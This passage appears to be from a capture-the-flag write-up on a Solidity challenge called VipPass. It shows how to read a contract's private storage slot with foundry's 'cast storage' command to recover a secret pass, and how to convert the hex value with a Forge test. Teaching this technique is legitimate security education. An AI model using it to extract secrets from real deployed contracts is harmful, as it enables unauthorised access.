 ```solidity
 assert(b <= a);
 return a - b;
    }

    function add(uint256 a, uint256 b) internal pure returns (uint256) {
 uint256 c = a + b;
 assert(c >= a);
 return c;
    }
}
```

Comment has been added on the function that will be exploited.

# Exploitation

## VipPass

By seeing this contract, the goal was pretty clear. We want to get the vip pass. One thing that should never be forgotten in solidity:

> Nothing is private in smart contracts!

The public variable can be accessed easly with call instruction. In other hand, the private variable can be accessed only with the function rpc function `eth_getStorageAt` (the name may be different depending of the client). The slot storage are explains in depth in [soliditylang](https://docs.soliditylang.org/en/v0.8.7/internals/layout_in_storage.html).

Basically, compare to other types, uint256 is easy to understand. Its position slot is the position of the declared variable (note that the mapping does not count). In our case `uint256 private vipPass;` is at position **4**, the variable `boss` (the owner of the contract) is at position **5**.

To access the variable `vipPass`, we will use cast from the foundry binaries:

```bash
$ # cast storage <contract address> <slot number>
$ cast storage 0xD5c0873f147cECF336fEEF1a28474716C745Df86 4
0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080
```

The function `senior()` returns the vipPass as an `uint256` value. The `cast storage` command returns the value as a hexadecimal string. We can either use an [online converter](https://www.rapidtables.com/convert/number/hex-to-decimal.html) or solidity (with foundry dependencies).

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Test.sol";
contract ContractTest is Test {
    function convert() public {
   //address test = address(0x9A5a04eCC45BB46877ADcd1Fa4dB82C08D1bd080);
   //uint256 test2 = uint256(uint160(test));
   uint256 test3 = 0x54be6df4fa514940682be41f9a5a04ecc45bb46877adcd1fa4db82c08d1bd080;
   emit log_named_uint("test2: ", test3);
    }
}
```
